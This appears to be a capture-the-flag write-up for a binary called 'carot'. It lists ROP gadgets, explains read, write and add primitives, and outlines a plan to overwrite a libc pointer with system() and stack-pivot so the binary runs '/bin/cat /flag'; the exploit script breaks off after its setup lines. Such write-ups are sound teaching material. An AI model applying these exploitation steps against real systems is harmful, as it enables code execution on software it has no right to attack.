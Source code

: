> # Exploit

- - -

Lets look out for some useful gadgets first. I found some interesting gadget using [xgadget](https://github.com/entropic-security/xgadget). Its a pretty nice rop gadget finder tool. So listing out some useful gadgets here.

```css
0x000000004011c8: add [rbp-0x3d], ebx; nop [rax+rax]; ret; 
0x00000000401902: mov [rbp-0x8], rax; mov rax, [rbp-0x8]; add rsp, 0x250; pop rbp; ret; 
0x000000004014bd: mov rax, [rbp-0x8]; add rsp, 0x10; pop rbp; ret;
```

These three rop gadgets can be used creatively. <br>

> ## read primitive

```css
0x000000004014bd: mov rax, [rbp-0x8]; add rsp, 0x10; pop rbp; ret;
```

So we can use this gadget to read value of a pointer and store it in rax register <br>

> ## write primitive

```css
0x00000000401902: mov [rbp-0x8], rax; mov rax, [rbp-0x8]; add rsp, 0x250; pop rbp; ret; 
```

We can use this gadget to write the value stored in rax to any writable memory pointed by \[rbp-0x8]. And then it increments rsp with 0x250 so we have to add a padding of 0x250 bytes and 0x8 bytes to satisfy the pop rbp instruction. <br> 

> ## add primitive

```css
0x000000004011c8: add [rbp-0x3d], ebx; nop [rax+rax]; ret; 
```

We can use this gadget to add the value of a pointer with arbitrary value. So with this primitive we can craft any value. So i used this primitive for arbitrary write what where. My friend `X3ero0` named it as 3dgadget 😂 <br>

So the exploit steps are like this:

1. We read __libc_start_main address into rax.
2. We write __libc_start_main into bss.
3. We write the string "/bin/cat /flag\x00" to bss using the 3dgadget.
4. We use the 3dgadget to change __libc_start_main address to system in bss
5. We stack pivot right above our crafted system address in bss and execute

```c
system("/bin/cat /flag\x00");
```

\### complete exploit

```python
#!/usr/bin/env python3.9
# -*- coding: utf-8 -*-
# Author := 4n0nym4u5

from rootkit import *

exe  = context.binary = ELF('./carot')
host = args.HOST or '0.0.0.0'
port = int(args.PORT or 11451)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

```